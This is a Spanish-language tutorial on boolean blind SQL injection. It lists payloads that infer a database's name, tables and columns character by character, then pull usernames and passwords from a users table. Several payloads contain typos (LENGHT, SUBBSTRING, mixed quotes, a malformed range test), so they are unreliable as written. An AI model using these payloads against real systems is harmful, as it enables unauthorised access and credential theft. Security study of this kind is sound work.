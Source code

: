 ```yaml
---
description: >-
  Si el servidor no muestra los resultados de las busquedas, tendremos que
  utilizar este método o el siguiente para obtener los resultados.
---
```


# BOOLEAN BLIND SQLI

## **DETERMINAR EL NOMBRE DE LA BASE DE DATOS CON BOOLEAN BLIND SQL INJECTION**

En este caso, al poner una comilla simple \('\) la web no me da error, por lo que no puedo saber si me encuentro ante un SQL Injection.

 **1.** Comprobamos el funcionamiento normal de la aplicacion. Este es el valor TRUE. Si la página no responde o da error, ese será el valor FALSE

 **2.** Para comprobar si es vulnerable a SQL Injection, lanzo un valor valido y una declaracion Verdadera o, al reves, un valor invalido O una declaracion verdadera.

 **`1 ' AND 1=1 -- -`**

 **`0 ' OR 1=1 -- -`**

 **3.** El problema es que el resultado de la llamada no es visible por lo que va a llevar mucho mas tiempo obtener la informacion necesaria. Existen 3 metodos:

###  **1 Adivinar la base de datos**

 Es el mas complicado ya que debemos saber el nombre de la base de datos o imaginarlo.

 **1.** Vamos a determinar la longitud del nombre de la base de datos:

 **`1 ' AND LENGHT(database())=10 -- -`**

 Como 1 es TRUE, si me da FALSE es que la longitud no es 10. Probamos hasta que obtenemos el numero que corresponde. \(4 por ejemplo\)

**2.** Ahora que sabemos que tiene 4 caracteres, hay que adivinar cual es esa palabra de 4 caracteres.

 **`1 ‘ AND SUBSTRING(database(),1,4) = ’root' -- -`**

 Si pruebo con root y me da FALSE es que no es esa la string que buscamos. Si da TRUE, vamos bien, esa es la Base de Datos que Buscamos.

###  **2 Adivinar letra por letra**

 De esta manera solo vamos a necesitar reiterar hasta conseguir sacar el nombre de la base de datos, pero es 100% efectivo:

 **`1 ‘ AND SUBSTRING(database(),1,1) = ’a' -- -`**

 Habria que enviar ese PAYLOAD pasando por todas las letras del abecedario hasta que nos da TRUE. \(primera letra = d\)

 **`1 ‘ AND SUBBSTRING(database(),2,1) = ’a' -- -`** \(segunda letra = v\)

 **`1 ‘ AND SUBBSTRING(database(),3,1) = ’a' -- -`** \(tercera letra = w\)

 **`1 ‘ AND SUBBSTRING(database(),4,1) = ’a' -- -`** \(cuarta letra = a\)

###  **3 Analizar el valor de la tabla ASCII de la base de datos**

 Este es el metodo mas rapido y sencillo para llegar a nuestro objetivo:

 **`1 ' AND ASCII(SUBSTRING(database(),1,1)) >= 65 AND 1 ' AND ASCII(SUBSTRING(database(),1,1)) <= 122 -- -`**

 Voy reduciendo el rango hasta que vaya dando con la letra correcta. Utilizo prueba y error hasta que dejo un rango muy estrecho para empezar a comparar con iguales.

 Hacemos lo mismo con el resto de letras y obtenemos el nombre de la Base de Datos.

##  **DETERMINAR LAS TABLAS CON BOOLEAN BLIND SQL INJECTION**

 Si recordamos de antes, las tablas las podiamos obtener en un SQL injection de la siguiente manera:

 **`SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1`**

 El anterior Query nos permite obtener el segundo resultado de las tablas de la database\(\)

 Pero ahora lo tengo que obtener analizando los valores ASCII, por tanto, tengo que hacer lo siguiente:

 **`1 ' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1),1,1) > 10`**

 De esta manera analizo los valores de la primera letra de la TABLA hasta que lo consigo y asi sucesivamente.

##  **DETERMINAR LAS COLUMNAS CON BOOLEAN BLIND SQL INJECTION**

 De la misma manera que hemos hecho antes, monto el PAYLOAD para obtener las letras de la columna.

**`1 ‘ AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='users' limit 3,1),1,1) > 10`**

 Esto se vuelve muy laborioso si no sabemos cual es la estructura de la tabla y no sabemos cual es la columna que queremos.

 con limit 3,1 obtenemos la columna 4 de la tabla.

##  **EXTRAER DATOS DE LA BASE DE DATOS CON BOOLEAN BLIND SQL INJECTION**

 Por ultimo, ya solo quedaria obtener los datos de las columnas.

 **`1 ‘ AND ASCII(SUBSTRING((SELECT user FROM users limit 0,1),1,1) > 10`**

 Ya con todos los datos, solo intentamos sacar el primer CAMPO de la COLUMNA user de la TABLA users

 Como ya hemos hecho con todos los anteriores, toca hacer trabajo de chino extrayendo letra por letra el user.

 **`1 ‘ AND ASCII(SUBSTRING((SELECT password FROM users limit 0,1),1,1) > 10`**

 Despues habria que hacer lo mismo para obtener los datos de la password.

